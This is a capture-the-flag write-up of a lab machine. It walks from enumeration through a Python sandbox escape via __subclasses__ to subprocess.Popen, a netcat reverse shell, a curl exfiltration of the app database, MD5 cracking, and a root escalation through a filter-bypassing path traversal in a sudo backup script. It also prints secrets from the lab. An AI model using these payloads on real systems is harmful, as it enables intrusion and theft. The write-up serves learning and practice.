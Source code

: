## ENUM

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
```

site hosted at: [http://10.10.11.62:5000/](http://10.10.11.62:5000/)

```
===============================================================
[+] Url:                     http://10.10.11.62:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 818]
/codes                (Status: 302) [Size: 199] [--> /login]
/login                (Status: 200) [Size: 730]
/logout               (Status: 302) [Size: 189] [--> /]
/register             (Status: 200) [Size: 741]
Progress: 4614 / 4615 (99.98%)
===============================================================
```

I will now use the site normally with Burp to analyze the traffic.

## INITIAL ACCESS

By using the service, I register a code and access it via the interface located at [http://10.10.11.62:5000/codes](http://10.10.11.62:5000/codes)

![alt text](/note/ctf/asset/HTB_code0.png)

I notice the ID which may possibly be a lead to follow.

I will analyze the traffic in detail now that I have tested the service.

I find this cookie after my registration:
`.eJzNj7EKAjEQRH9l3TpcY3d_IFiInchxLMleXIgbyCaKHPfvphVLG6sp3ryBWXFeEtmNDcfrilB74J3NKDI6PHMUq4WqZAVr3neytLSDS27gSUHzE1KOIDrgtLnvhYM-KEkAXziwVqFkA5wSkzHU8gKK9Hfu76-POcqH2muTw2ZcZgk47rc3MC-Avg.aGhhzw.XzQb8mECgGghn8HdWybDRBwF9h8`

I try exploiting the code ID but nothing interesting…

I focus on the code window itself.

I can’t do imports etc. However, it does display complete errors (via `raise`, `Exception`, etc.). Maybe I can leak something?

I will try to leak the classes loaded in memory. Why?

To find a library already loaded (so without import) and use it without being blacklisted!

To find useful classes to execute code such as subprocess.Popen which allows executing commands:

```python
classes = (()).__class__.__bases__[0].__subclasses__()
for i, cls in enumerate(classes):
    print(i, cls)
```

and I find it here: `317 <class 'subprocess.Popen'>`

I try to execute it like this:
`(()).__class__.__bases__[0].__subclasses__()[317]("ls", shell=True).communicate()`

but it doesn’t work, so I use raise!

```python
raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317](  
    "whoami", shell=True, stdout=-1).communicate()))
```

![alt text](/note/ctf/asset/HTB_code1.png)

Perfect, I generate a reverse shell payload!

```python
raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317](  
    "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.123 4848 >/tmp/f", shell=True, stdout=-1).communicate()))
```

And I can display user.txt.

## OWN USER:

Now that I am on the machine, I will search some files including app.py which corresponds to the application, I find interesting elements:

```python
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```

I see a secret key and a database.

```shell
root:x:0:0:root:/root:/bin/bash
...
app-production:x:1001:1001:,,,:/home/app-production:/bin/bash
martin:x:1000:1000:,,,:/home/martin:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

So a user named martin and root (since im app-production).

And if the database contained martin’s password?

I exfiltrate it: `curl -F 'data=@/home/app-production/app/instance/database.db' http://ip:port`

and I find:

| user        | password                         |
| ----------- | -------------------------------- |
| development | 759b74ce43947f5f4c91aeddc3e5bad3 |
| martin      | 3de6f30c4a09c27fc71932bfc68474be |

I try SSH login with it but it doesn’t work and that’s normal… it looks a lot like an MD5 hash! I crack it: `nafeelswordsmaster`

`ssh martin@10.10.11.62`

and it works!

I crack the dev one just in case: `development`

Here are the interesting results from linpeas:

#### Linpeas results:

processes running as root:

```
root         851  0.0  0.2 241372 11340 ?        Ssl  Jul04   0:00 /usr/sbin/ModemManager
...
root        3075  0.0  0.2 249528  9512 ?        Ssl  Jul04   0:00 /usr/lib/upower/upowerd
```

#### BIG LEAD

```
Matching Defaults entries for martin on localhost:                                                                                                                                                                                          
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

I analyze the script:

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

It parses a JSON used to make a backup with backy, so if I provide a good JSON that extracts root (via a custom path traversal that bypasses the filter: `updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file"))`

then I will be able to own root. I look for documentation:

[https://github.com/vdbsh/backy](https://github.com/vdbsh/backy) perfect, I cook the JSON:

```json
{
  "destination": "/home/martin",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root/"
  ]
}
```

I execute it: `sudo /usr/bin/backy.sh payload.json`

and I retrieve the tar.gz file:
`scp martin@10.10.11.62:/home/martin/code_home_.._root_2025_July.tar.bz2 .`

and I own root! ✅
